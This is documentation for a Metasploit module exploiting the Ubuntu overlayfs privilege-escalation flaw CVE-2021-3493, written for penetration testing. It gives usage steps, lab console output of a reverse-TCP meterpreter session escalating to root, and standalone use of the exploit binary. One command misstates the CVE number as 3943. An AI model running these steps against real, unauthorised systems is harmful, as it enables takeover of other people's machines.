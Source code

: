 ## Vulnerable Application

This module exploits a vulnerability in Ubuntu's implementation of overlayfs.  The
vulnerability is the result of failing to verify the ability of a user to set the
attributes in a running executable. Specifically, when Overlayfs sends the set attributes
data to the underlying file system via `vfs_setxattr`, it fails to first verify the data
by calling `cap_convert_nscap`.
This vulnerability was patched by moving the call to `cap_convert_nscap`
into the `vfs_setxattr` function that sets the attribute, forcing verification every time the
`vfs_setxattr` is called rather than trusting the data was already verified.

### Install

Install Ubuntu from version 14.04LTS to 20.04 LTS

## Verification Steps

1. Make an Ubuntu
1. Create a meterpreter or shell payload and upload it to the Ubuntu target
1. Set up a handler for the payload
1. Launch the payload as a regular user on the Ubuntu Target and connect the handler
1. Do: `use exploit/linux/local/cve_2021_3943_overlayfs`
1. Do: `set payload <payload>`
1. Do: `set lhost <ip>`
1. Do: `set [r|l]port <port>`
1. Do: `run`
1. You should get a root session

## Options

### COMPILE

[Auto|True|False] This selects the binary to use.  True will upload the source code and perform
compilation on target, False will upload a precompiled binary.  AUTO will favor compiling on target
but will fall back to the precompiled option if a compiler cannot be found.

### WritableDir
This indicates the location where you would like the payload and exploit binary stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

### Ubuntu 20.04.0 x64

```
msf6 exploit(linux/local/cve_2021_3493_overlayfs) > 
[*] Sending stage (3012548 bytes) to 192.168.132.138
[*] Meterpreter session 9 opened (192.168.135.197:4567 -> 192.168.132.138:47988 ) at 2021-11-09 11:34:44 -0600

msf6 exploit(linux/local/cve_2021_3493_overlayfs) > sessions -i 9
[*] Starting interaction with 9...

meterpreter > sysinfo
Computer     : ubuntu-20.04.0
OS           : Ubuntu 20.04 (Linux 5.4.0-26-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: msfuser
meterpreter > background
[*] Backgrounding session 9...
msf6 exploit(linux/local/cve_2021_3493_overlayfs) > set session 9
session => 9
msf6 exploit(linux/local/cve_2021_3493_overlayfs) > run

[*] Started reverse TCP handler on 192.168.135.197:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version array: ["5.4.0", "26", "generic"]
[*] major_version: 5.4.0
[*] minor_version: 26
[+] The target appears to be vulnerable.
[*] Creating directory /tmp/.wH0xRHji
[*] /tmp/.wH0xRHji created
[*] Dropping pre-compiled exploit on system...
[*] Writing '/tmp/.wH0xRHji/.PsJzzn' (17840 bytes) ...
[*] Writing '/tmp/.wH0xRHji/.Doeg4dSW1G' (250 bytes) ...
[*] Launching exploit...
[*] Running: /tmp/.wH0xRHji/.PsJzzn /tmp/.wH0xRHji/.Doeg4dSW1G /tmp/.wH0xRHji 6PFbO1d
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 192.168.132.138
[+] Deleted /tmp/.wH0xRHji/.PsJzzn
[*] Meterpreter session 10 opened (192.168.135.197:4444 -> 192.168.132.138:41814 ) at 2021-11-09 11:35:05 -0600
[*] 

meterpreter > getuid
Server username: root
```

### Included binary
The binary used by this exploit `data/exploits/CVE-2021-3493/cve_2021_3493.x64.elf` can be used
separately from metasploit.  The parameters required are:
```
    // argv[1] = The payload or executable you wish to launch
    // argv[2] = A directory to store the files and directories created when the exploit runs
    // argv[3] = A random string that is used to create directory names.
```
```
msfuser@ubuntu-18041:~$ id
uid=1000(msfuser) gid=1000(msfuser) groups=1000(msfuser),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
msfuser@ubuntu-18041:~$ mkdir /tmp/test
msfuser@ubuntu-18041:~$ ./cve_2021_3493.x64.elf /bin/bash /tmp/test abcdef
root@ubuntu-18041:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),1000(msfuser)
root@ubuntu-18041:~# 
```

